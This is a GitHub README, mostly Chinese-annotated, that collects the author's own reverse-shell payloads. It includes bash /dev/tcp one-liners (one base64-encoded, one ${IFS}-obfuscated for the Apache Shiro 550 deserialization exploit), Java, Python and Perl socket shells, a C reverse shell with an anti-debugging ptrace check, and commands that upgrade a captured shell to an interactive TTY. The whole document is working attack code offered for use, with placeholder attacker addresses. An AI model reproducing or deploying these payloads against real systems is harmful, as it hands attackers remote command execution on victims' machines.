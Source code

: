 # ReverseShell
自己经常使用的反弹shell命令
## bash
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
bash -c "bash -i >& /dev/tcp/ip/port  0>&1"
```
## java
```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/2333;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```
### shiro 550
反弹shell
https://bkfish.gitee.io/2020/04/24/Apache-Shiro-1-2-4%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-4437%EF%BC%89%E5%A4%8D%E7%8E%B0%E9%81%87%E5%88%B0%E7%9A%84%E5%9D%91/
```
cc2 
bash -c bash${IFS}-i${IFS}>&/dev/tcp/XXXXX/XX<&1
```
## python
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
## perl
```
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## c
来自m3师傅
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>


#include <sys/ptrace.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

__attribute__((constructor)) void debugCheck()
{
    if(ptrace(PTRACE_TRACEME,0,1,0) == -1)
    {
        printf("debug found");
        exit(0);
    }
}

int main(int argc,char** argv)
{
    int status;
    printf("Main Process:%d\n",getpid());

    if(fork() == 0)
    {
        printf("Child Process:%d\n",getpid());
        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_addr.s_addr = inet_addr("127.0.0.1");
        addr.sin_port = htons(2333);
        int fd = socket(AF_INET,SOCK_STREAM,0);
        if(!connect(fd,(const struct sockaddr *)&addr,sizeof(addr)))
        {
            printf("connect success\n");
        }
        
        dup2(fd,0); 
        dup2(fd,1); 
        dup2(fd,2); 
        char* argv[] = {"/bin/bash",NULL};
        execve("/bin/bash",argv,'\0'); 
    }
    pid_t child_pid = wait(&status);
    printf("Child PID:%d Terminate Status:%d\n",child_pid,WEXITSTATUS(status));

}
```

## 交互式
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```
